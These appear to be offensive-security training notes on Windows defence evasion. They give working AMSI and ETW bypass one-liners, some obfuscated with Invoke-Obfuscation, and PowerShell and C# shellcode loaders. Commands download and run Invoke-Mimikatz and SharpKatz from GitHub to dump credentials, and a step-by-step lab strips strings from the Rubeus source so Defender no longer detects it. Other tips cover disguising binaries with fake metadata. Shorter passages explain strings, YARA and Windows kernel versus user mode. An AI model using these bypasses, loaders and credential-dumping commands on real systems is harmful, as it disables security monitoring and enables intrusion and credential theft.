[+] Uses reflection to access internal, non-public fields in .NET classes.
[+] Targets the etwProvider object within PowerShell’s PSEtwLogProvider class, which handles ETW logging.
[+] Sets the m_enabled field of the underlying EventProvider to false, disabling ETW event logging for PowerShell activities.
Result: PowerShell commands, script blocks, and other activities that would normally be logged via ETW (e.g., for security monitoring or auditing) will no longer generate ETW events, making them harder to detect by security tools like Windows Defender, Sysmon, or other EDR solutions that rely on ETW.
If we want to use this first, without an AMSI Bypass, we'll have to obuscate it, otherwise AMSI will trigger on this code. We'll use Invoke-Obfuscastion.
cd \thev\invoke-obfuscation
import-module invoke-obfuscation.psd1
invoke obfuscation

then we'll enter our script into Invoke-Obfuscation.
SET SCRIPTBLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
Next we'll select "token", "string" and "2", re-order.
Our output command is now:
[Reflection.Assembly]::LoadWithPartialName(("{1}{0}{2}" -f 'm.Co','Syste','re')).GetType(("{10}{0}{6}{7}{1}{4}{11}{5}{8}{2}{9}{3}"-f '.D','i','Event','ider','cs','Eventi','iagnos','t','ng.','Prov','System','.')).GetField(("{0}{1}{2}" -f 'm','_e','nabled'),("{1}{2}{0}{3}{4}"-f 'P','No','n','ublic,I','nstance')).SetValue([Ref].Assembly.GetType(("{5}{7}{6}{4}{0}{9}{8}{2}{11}{10}{3}{1}"-f 'nagement.','er','n','rovid','Ma','Syst','.','em','tomatio','Au','cing.PSEtwLogP','.Tra')).GetField(("{0}{1}{3}{2}"-f'et','wP','vider','ro'),("{1}{3}{2}{0}"-f'tic','No','ic,Sta','nPubl')).GetValue($null),0)
With "copy" we can copy it to our clipboard, open a new powershell and past the command. Then check eventviewer!

powershell shellcode loader (without amsi bypass)
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode
$code = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll", SetLastError=true)] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
}
"@
Add-Type -TypeDefinition $code
# Allocate memory
$mem = [Win32]::VirtualAlloc([IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)
# Copy shellcode to memory
[Win32]::memcpy($mem, $shellcode, $shellcode.Length)
# Create thread to execute shellcode
$thread = [Win32]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
# Wait for thread to exit (optional)
[System.Runtime.InteropServices.Marshal]::WaitForSingleObject($thread, 0xFFFFFFFF)
Shorter version:
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode
# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)
# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)
# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])
# Start the thread
$thread.Invoke()
# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
AMSI and ETW bypass in 1:
https://github.com/BlackShell256/Null-AMSI?tab=readme-ov-file
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1);Invoke-NullAmsi -etw -v;IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
Another AMSI Bypass:
$t=[Ref].Assembly.GetType(('System.Manage'+'ment.Automa'+'tion.AmsiUtils'));
$f=$t.GetField(('amsiIn'+'itFailed'),'NonPublic,Static');
$f.SetValue($null,$true);
includes c-code!!!
AMSIBYPASS
This bypass does not require administrator rights!!!
Works on 1903, 1909 and before
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
List dirty words:
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
Los er door:
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
And finally AMSI.FAIL
or this also works
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
then run
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
C# Example:
using System;
using System.Reflection;
public class AmsiBypass
{
public static void Main(string[] args)
{
try
{
// Get the AmsiUtils type
Type amsiUtilsType = typeof(System.Management.Automation.AmsiUtils);
// Get the amsiInitFailed field
FieldInfo amsiInitFailedField = amsiUtilsType.GetField("amsiInitFailed", BindingFlags.NonPublic | BindingFlags.Static);
// Set the amsiInitFailed field to true
if (amsiInitFailedField != null)
{
amsiInitFailedField.SetValue(null, true);
Console.WriteLine("AMSI bypassed.");
}
else
{
Console.WriteLine("amsiInitFailed field not found.");
}
}
catch (Exception ex)
{
Console.WriteLine($"Error: {ex.Message}");
}
}
}
Key Considerations:
- Assembly Loading:
- If your .NET binary doesn't already have
System.Management.Automation.dllloaded, you may need to load it explicitly usingAssembly.Load()or related methods.
- If your .NET binary doesn't already have
- .NET Version Compatibility:
- Ensure that the reflection code is compatible with the .NET Framework or .NET Core/.NET 5+ version that the target binary is using.
- Security Implications:
- AMSI bypass techniques can be used for malicious purposes. Use them responsibly and ethically.
- EDR Detection:
- Finding the correct assembly:
- In some .net applications, the
System.Management.Automation.dllmay not be loaded. If this is the case, you will need to load it.
- In some .net applications, the
In summary: The AMSI bypass technique using reflection is not limited to PowerShell and can be successfully implemented in .NET binaries.
dotnet packing
ConfuserEx Babel
https://github.com/pracsec/AmsiScanner/tree/main/src
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patching-Clr
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
Use this one:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
Invoke-obfuscation set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) token string 2
output =
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
Powershell in-memory loader
ADVANTAGES of .net binaries -> can be loaded and executed completely in-memory (fileless)
Powershell loader
dot-net execute
Lab - PS Loader
Static Analysis
TL;DR In this chapter we'll have a look at basic signature based AV evasion techniques. We'll use
strings.exeandyarato explain the basic principles of pattern matching and modify existing malicious tools to bypass signature based detections.
1. Strings
What are Strings?
- Human-readable text sequences in binary files (e.g., executables, memory dumps).
- May include URLs, IPs, commands, or error messages.
Forensic Uses
- Malware Analysis: Identify behavior, networks, or obfuscated text.
- Evidence Extraction: Recover passwords, filenames, or memory fragments.
- Correlations: Match artifacts across files/systems.
- Reverse Engineering: Understand program logic or libraries used.
Tools
- Basic:
strings.execommand (extract text from binaries). -> Part of SysinternalsSuite - Advanced: Volatility, IDA Pro, Ghidra for deeper analysis.
Challenges
- False Positives: Some strings are irrelevant.
- Obfuscation: Text may be encrypted or encoded by attackers.
MINI-LAB on Strings
Run strings on NativeDump HxD or XXD on NativeDump.exe
2. YARA: A Tool for Forensics and Malware Detection
YARA (Yet Another Recursive Acronym) is a powerful tool used in cybersecurity to detect and classify malware by creating rules to identify patterns in files, memory, or network traffic.
Key Features
- Pattern Matching: Scans for specific strings, hex sequences, or behaviors in files.
- Rules-Based: Allows defining conditions to identify malware traits.
- Versatility: Works on files, running processes, or memory dumps.
Applications
- Malware Detection: Identify known malware by their unique signatures.
- Incident Response: Scan systems for malicious artifacts during investigations.
- Threat Hunting: Monitor for emerging threats across files and traffic.
- Reverse Engineering: Assist in analyzing malware samples and libraries.
Why YARA Matters
- Highly customizable for different security needs.
- Essential for proactive threat detection and forensic investigations.
MINI-LAB on YARA
Let's first install YARA support in VSCODE

rule PE_Detected
{
meta:
description = "Detects 'MZ header'"
author = "Peter Girnus"
web = "https://www.petergirnus.com/blog"
condition:
uint16(0) == 0x5a4d
}
Marked text
LitterBox
threatcheck/GoCheck on rubeus (make sure defender execption is off for the folder both files are located)
Check output threatcheck/gocheck
erase with 0x00's
use visual studio find all/replace all (match word)
Visual Studio
2019Components:

SysinternalsSuite (https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)
GoCheck (https://github.com/gatariee/gocheck/releases/tag/v1.5.0) Move GoCheck to C:\Sysinternals Add c:\SysinternalsSuite to PATH
Install Python3x ? Install Yara ? (https://github.com/VirusTotal/yara/releases/download/v4.5.2/yara-v4.5.2-2326-win64.zip) Install Yara and Hex editor plugin VS CODE?
For Yara Download and Install Visual C++ Redistributable:
Go to the official Microsoft download page for the Visual C++ Redistributable
(,https://learn.microsoft.com/en-us/cpp/windows/latest-supported-vc-redist?view=msvc-170>)
Download and install the Visual C++ Redistributable for Visual Studio 2015, 2017, 2019, and 2022:
Visual C++ Redistributable x64
How to make a new project:
dotnet new console -n MyApp
cd MyApp
dotnet build
dotnet run
Lab Static Analysis
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
Let's take a common attack tool "Rubeus", compile it and see what Defender thinks of it.
https://www.youtube.com/watch?v=sP2XH8YI20c&t=1042s
https://github.com/GhostPack/Rubeus.git
https://github.com/gatariee/gocheck/releases
On your windows machine:
cd git
git clone https://github.com/GhostPack/Rubeus.git

Let's compile this with Visual Studio 2022

Browse to your Rubeus solution file (C:\git\Rubeus)

select the Program.cs file on the right side in your Solution Explorer

In order to compile let's change "debug" to "release" and compile as a x64 bit application. Click on "Configuration Manager",


Save the project, and let's compile (build).


Let's see if it works by running rubeus with a simple command:

If we copy the file to our "C:\" directory, we'll see that Defender immediately detects it as malicious!!!

HINT : Defender didn't detect this as malicious when we compiled it since we made some ,exclusions ("C:\Git", "C:\Temp", "C:\Desktop", ...) in Defender to avoid scanning those directories, you can check the exclusions with the following powershell command:
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
So now what, how did Defender exactly detect this file as malicious, as we can see it was scanned upon being written to disk - this is static (signature based detection), we'll need to make some changes to our source code to bypass these signatures.
We'll use GoCheck (based of DefenderCheck and ThreatCheck) to analyze our rubeus file.
Open a new powershell prompt and type the following command:
gocheck64.exe C:\Git\Rubeus\Rubeus\bin\x64\Release\Rubeus.exe --defender

We can see exactly which strings has caused Defender to detect this as malicious, ticket. So all we have to do is go back to our Visual Studio source code and find/replace all TICKET strings by something else, i.e. "token".

Make sure you select the "Look in" to Entire Solution, and click "Replace All".


We can see 1294 References have been renamed. Save the file and let's REBUILD the solution.

And now we'll scan it with GoCheck again:
gocheck64.exe C:\Git\Rubeus\Rubeus\bin\x64\Release\Rubeus.exe --defender

We can see there old detection for TICKET is gone, but we have a new one: DiffieHellmanKey, alright let's fix that one, just like we did before.
Open Find/Replace and change DiffieHellmanKey to "dhkey". Save the project, rebuild and let's scan again with GoCheck (it should replace 12 occurrences).

Another hit : impersonateuser, we'll replace this with "impuser". (it should replace 7 occurrences). Save the file and let's REBUILD the solution, and scan again with GoCheck.
gocheck64.exe C:\Git\Rubeus\Rubeus\bin\x64\Release\Rubeus.exe --defender

Another one? Now defender seems to dislike base64. We need to be careful with replacing this as there are functions using base64 as part of the name (i.e. Frombase64String). Let's replace this with base_64, but selecting "match word" to avoid renaming functions and breaking our application. (it should replace 78 occurrences)

Save the file and let's REBUILD the solution, and scan again with GoCheck.

Tadaa!!!! Victory!!! No more detections, we can now drop the clean rubeus file to our "C:\" drive and defender won't detect it. Let's try:


https://github.com/Matthew-IE/XObfuscator.git add to Havoc C2
strings, threatcheck, gocheck, floss, yara
C:\Temp>gocheck64.exe C:\Git\Rubeus\Rubeus\bin\x64\Release\Rubeus.exe --defender c:\Git\ThreatCheck\ThreatCheck\bin\x64\Release>ThreatCheck.exe -f C:\Git\Rubeus\Rubeus\bin\x64\Release\Rubeus.exe
Notes
install code
install sdk (https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-9.0.201-windows-x64-installer)
install C# Dev Kit and .NET Install Tool extensions from the VS Code marketplace.


How to make a new project:
dotnet new console -n MyApp
cd MyApp
dotnet build
dotnet run
INCLUDE SCREENSHOT of CLR info of sharkpatz/rubeus SHOW dotpeek - disadvantages of C#

Lab - Havoc dotnet execute
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
Forensics
strings dnspy
Chapter 1.5 - "WIN32api, Functions, kernel and user mode"
Let's start with the basics, user-mode and kernel-mode:

User Mode vs Kernel Mode in Windows
1. Kernel Mode
- What it is: Kernel mode is the privileged mode of operation in which code has unrestricted access to all system resources, including hardware and memory. It operates at the core of the operating system.
- Who uses it: The Windows kernel, device drivers, and other low-level system processes operate in kernel mode.
- Capabilities:
- Direct access to the hardware (e.g., CPU, memory, storage devices).
- Ability to execute critical system-level instructions.
- Risks: Errors in kernel-mode processes can lead to system crashes or instability (commonly referred to as a "blue screen").
2. User Mode
- What it is: User mode is the restricted mode in which applications and processes run. Code executed in user mode cannot directly access hardware or system resources and relies on the kernel for such operations.
- Who uses it: Regular applications (e.g., browsers, text editors) and user-level processes operate in user mode.
- Capabilities:
- Processes in user mode interact with hardware indirectly through system calls provided by the kernel.
- Memory and resources are isolated, minimizing the impact of an application crash.
- Benefits: User mode enhances system stability by isolating applications from the core system operations. If a user-mode application crashes, it typically does not affect the operating system itself.
Switching Between Modes
- In Windows, switching between user mode and kernel mode happens when a user-mode application requests system resources (e.g., file I/O or network access). These requests are performed using system calls. The operating system processes these calls in kernel mode and returns the results to the user-mode application.
Summary
- Kernel mode = Power and responsibility.
- User mode = Safety and isolation.
This separation is crucial for maintaining security and stability in modern operating systems.
learn.micorosoft.com
Explain Kernel vs user mode (ntdll.dll, kernel32.dll, kernelbase.dll)
Explain DLL's

WIN32 api functions (slides)

https://malapi.io/
Api monitor x64dbg
 https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls
https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls


Let's build a dummy shellcode:
hello world dialog
https://github.com/hasherezade/pe_to_shellcode/releases/tag/v1.2
sudo msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f exe -o msg.exe
https://www.youtube.com/watch?v=0PUZbgcIMzg create a dialogbox with metadata
IMPORTANT: The closer you can work to the kernel (ntdll.dll), the least chance on detection, since kernel32 and kernelbase all eventually translate into an ntdll.dll function. NTDLL.dll is basically a wrapper for syscalls to kernel mode.
using System;
using System.Diagnostics;
using System.Linq;
class Program
{
static void Main()
{
// Buffer with our shellcode
byte[] shellCode;
shellCode = new byte[]
{
0xfc,0xfc
};
Console.Clear();
Console.Write("Shellcode: ");
foreach (byte b in shellCode)
{
Console.Write($"0x{b:X2}, "); // X2 formats as two-character uppercase hex
}
Console.WriteLine(); // To add a newline at the end
Console.WriteLine(); // To add a newline at the end
// Find the process with the name "explorer"
var explorerProcess = Process.GetProcessesByName("explorer").FirstOrDefault();
if (explorerProcess != null)
{
Console.WriteLine($"Process ID of explorer.exe: {explorerProcess.Id}");
}
else
{
Console.WriteLine("explorer.exe not found.");
}
Console.WriteLine(); // To add a newline at the end
// Wait for any key to be pressed
Console.WriteLine("Press any key to stop...");
Console.ReadKey();
}
}
Shellcode

The shellcode is initially stored as a byte[] array in the .rdata section of the PE file on disk (as read-only data). At runtime, the shellcode is copied to a dynamically allocated memory region (created by VirtualAlloc) that is not part of the PE file’s section structure.
The shellcode is executed from this dynamically allocated memory, not from a PE section like .text or a custom section. This approach avoids modifying the PE file on disk, making it harder to detect through static analysis. However, it relies on runtime memory allocation, which may be flagged by modern security mechanisms.
.rdata = readonly data
[-] What is Position Independent Code (Shellcode)?
Position Independent Code is code that is designed to execute regardless of where it resides in memory. This is in contrast to most programs, which might need to be loaded at a specific address to function correctly. Shellcode is a type of PIC, often written for exploits and payloads in hacking.
The term “Shellcode” originally referred to code that, when executed, would spawn a command shell — hence the name. However, today, it generally refers to any payload used for exploitation.
[-] Uses of Shellcode:
Exploitation: The primary use of shellcode is to exploit vulnerabilities in software, where the attacker can inject and execute their code. Payloads: Once a vulnerability is exploited, shellcode can be used to deliver payloads, which can range from spawning a reverse shell to injecting ransomware or establishing persistence. Bypassing Restrictions: Shellcode can be crafted to bypass security mechanisms, making detection and mitigation difficult.
[-] Shellcode vs. Compiled Code vs. Interpreted Code:
Shellcode: As mentioned, shellcode is position-independent, designed to run from any location in memory. It doesn’t rely on external libraries or functions and should be small and efficient to work within the constraints of an exploit.
Compiled Code: This is code written in languages like C or C++ that is then compiled into machine code by a compiler. The result is a binary executable that the system can run. Unlike shellcode, compiled programs often rely on fixed memory addresses and external libraries.
Interpreted Code: This is code written in languages like Python, Ruby, or JavaScript that is executed line-by-line by an interpreter. It’s not converted into machine code; instead, the interpreter reads and executes it directly. This makes it generally slower than compiled code, but it’s more flexible and platform-independent.
PE-File vs Shellcode
msfvenom -a x64 --platform windows -p windows/x64/exec CMD=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 276 bytes
Final size of c file: 1188 bytes
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
USing DONUT to convert a PE to Shellcode
donut.exe -e 1 -a x64 -o shellcode.donut -f 3 -i calcloader.exe -z 1 -b 1 -k 2
In a Portable Executable (PE) file, the unsigned char shellcode[] array is typically stored in the .data section. This section is used for storing initialized global and static variables. The .data section is marked as readable and writable.
Here's a brief overview of the relevant sections in a PE file:
- .text: Contains the executable code.
- .data: Contains initialized global and static variables.
- .bss: Contains uninitialized global and static variables.
- .rdata: Contains read-only data, such as string literals and constants.
Since shellcode is an initialized global variable, it will be placed in the .data section of the PE file.
To summarize, the unsigned char shellcode[] array in your code will be stored in the .data section of the PE file.
Let's open CFF Explorer and dump the data section.

And open that file in Hexdump:

Let's have a look, lets open powershell and run our loader.

Then attach x64dbg to the localloader.exe and check for those two memory locations:


**What is AMSI/Dotnet (managed/unmanaged code)**
The .NET Framework provides the Assembly.Load method which allows loading Common Object
File Format (COFF) images like such as DLL’s and EXE’s. Assembly.Load can be supplied
with a file path to load a DLL from disk, or with a byte array to load directly in memory.
Threatcheck/AMSI Trigger
ClamAV
dotpeek/hexdump --canonical
strings -n 5
Shelcode formats (shellcode formatter etc)
OPSEC HINT: Make sure your binaries look legit, add metadata and and icon to the file!
On Windows (requires SDK): https://dotnet.microsoft.com/en-us/
csc.exe (CSharp/dotnet)
c:\windows\Microsoft.NET\Framework\v3.5\bin\csc.exe /t:exe /out:loader.exe loader.cs
csc.exe /t:exe /out:$utilName /unsafe $katzPath
// AssemblyInfo.cs
[assembly: AssemblyTitle("YourProductName")]
[assembly: AssemblyDescription("Some description")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("YourCompanyName")]
[assembly: AssemblyProduct("YourProductName")]
[assembly: AssemblyCopyright("© YourCompanyName")]
[assembly: AssemblyTrademark("")]
[assembly: AssemblyCulture("")]
[assembly: AssemblyVersion("1.0.0.0")]
[assembly: AssemblyFileVersion("1.0.0.0")]
csc -out:evil.exe -optimize- -win32icon:app.ico Program.cs AssemblyInfo.cs
You can extract metadata from any binary with this simple program.
dotnet new console -n AssemblyInfoExtractor
cd AssemblyInfoExtractor
Create a "Program.cs" file here
using System;
using System.Reflection;
namespace AssemblyInfoExtractor
{
class Program
{
static void Main(string[] args)
{
if (args.Length == 0)
{
Console.WriteLine("Please provide the path to the assembly.");
return;
}
string assemblyPath = args[0];
try
{
var assembly = Assembly.LoadFile(assemblyPath);
var assemblyName = assembly.GetName();
Console.WriteLine($"Assembly Full Name: {assemblyName.FullName}");
Console.WriteLine($"Version: {assemblyName.Version}");
var attributes = assembly.GetCustomAttributesData();
foreach (var attr in attributes)
{
if (attr.AttributeType == typeof(AssemblyCompanyAttribute))
{
Console.WriteLine($"Company: {attr.ConstructorArguments[0].Value}");
}
if (attr.AttributeType == typeof(AssemblyProductAttribute))
{
Console.WriteLine($"Product: {attr.ConstructorArguments[0].Value}");
}
if (attr.AttributeType == typeof(AssemblyCopyrightAttribute))
{
Console.WriteLine($"Copyright: {attr.ConstructorArguments[0].Value}");
}
if (attr.AttributeType == typeof(AssemblyTitleAttribute))
{
Console.WriteLine($"Title: {attr.ConstructorArguments[0].Value}");
}
if (attr.AttributeType == typeof(AssemblyDescriptionAttribute))
{
Console.WriteLine($"Description: {attr.ConstructorArguments[0].Value}");
}
}
}
catch (Exception ex)
{
Console.WriteLine($"Error: {ex.Message}");
}
}
}
}
dotnet build
dotnet run --project C:\Temp\AssemblyInfoExtractor\AssemblyInfoExtractor.csproj C:\Temp\LocalLoader.exe
or run the exe:
C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0>dir
Volume in drive C is Windows
Volume Serial Number is 368D-BFAA
Directory of C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0
02/21/2025 04:35 PM <DIR> .
02/21/2025 04:35 PM <DIR> ..
02/21/2025 04:31 PM 455 AssemblyInfoExtractor.deps.json
02/21/2025 04:35 PM 6,656 AssemblyInfoExtractor.dll
02/21/2025 04:35 PM 145,408 AssemblyInfoExtractor.exe
02/21/2025 04:35 PM 11,080 AssemblyInfoExtractor.pdb
02/21/2025 04:31 PM 268 AssemblyInfoExtractor.runtimeconfig.json
5 File(s) 163,867 bytes
2 Dir(s) 2,280,939,520 bytes free
C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0>AssemblyInfoExtractor.exe C:\Temp\LocalLoader.exe
Assembly Full Name: LocalLoader, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
Version: 1.0.0.0
Title: LocalLoader
Description:
Company:
Product: LocalLoader
Copyright: Copyright © 2025
msbuild.exe (CSharp, C++)
msbuild buildapp.csproj -t:HelloWorld
msbuild mimidogz.sln /t:Build /p:Configuration=Release /p:Platform=x64
@echo off
set msBuildExe="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
set solutionsFile="C:\TestProject\mySln.sln"
rem Build the solutions:
%msBuildExe% /t:Build /p:Configuration=Release /p:Platform=x64 %solutionsFile%
CL.exe (C) Visual Studio
Developer Prompt Visual Studio
cl.exe hello.c /out:hello.exe /exe
git clone https://github.com/gentilkiwi/mimikatz.git
cl.exe /Zi /I inc\ mimikatz\modules\misc\kuhl_m_misc_citrix.c modules\kull_m_kernel.c
modules\kull_m_memory.c modules\kull_m_minidump.c modules\kull_m_output.c
modules\kull_m_process.c modules\kull_m_string.c lib\x64\ntdll.min.lib
/link kernel32.lib user32.lib advapi32.lib shell32.lib crypt32.lib rpcrt4.lib vcruntime.lib ucrt.lib
/entry:kuhl_m_misc_citrix_logonpasswords
/subsystem:console
Staged vs Stageless
A note on compiling
without code optimisation, all imported functions are show. With code optimization, only virtuallalloc and exitprocess.
The command cl /Od /Zi /Fe:local_loader.exe Local_loader_C.c is used to compile a C source file using the Microsoft Visual C++ (MSVC) compiler. Here's a breakdown of each part of the command:
-
cl: This is the command-line compiler for Microsoft Visual C++. -
/Od: This flag disables optimization. It ensures that the compiler does not perform any optimizations that might remove or alter the code, which is useful for debugging and ensuring that all function calls are preserved. -
/Zi: This flag generates complete debugging information. It creates a Program Database (PDB) file that contains debugging information, which is useful for debugging the executable with a debugger. -
/Fe:local_loader.exe: This flag specifies the name of the output executable file. In this case, it sets the output file name tolocal_loader.exe. -
Local_loader_C.c: This is the name of the C source file to be compiled.
Putting it all together, the command compiles the Local_loader_C.c source file into an executable named local_loader.exe, with optimizations disabled and debugging information included.
To run this command, you would typically open a Developer Command Prompt for Visual Studio and execute the command there. Here is an example of how you might run it:
cl /Od /Zi /Fe:local_loader.exe Local_loader_C.c
After running this command, you can use tools like Dependency Walker to inspect the import table of local_loader.exe and verify that all the expected functions are listed.
C:\Lab>dumpbin /imports Local_loader_C.exe
Microsoft (R) COFF/PE Dumper Version 14.42.34436.0
Copyright (C) Microsoft Corporation. All rights reserved.
Dump of file Local_loader_C.exe
File Type: EXECUTABLE IMAGE
Section contains the following imports:
KERNEL32.dll
140017000 Import Address Table
140020EC0 Import Name Table
0 time date stamp
0 Index of first forwarder reference
610 WaitForSingleObject
232 GetCurrentProcess
233 GetCurrentProcessId
103 CreateThread
5FF VirtualAlloc
654 WriteProcessMemory
4F5 RtlCaptureContext
4FD RtlLookupFunctionEntry
504 RtlVirtualUnwind
...
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils';$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m));$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static');$field.SetValue($null,$true)
Lab - Shellcode
IMPORTANT : Please do not send submit samples to
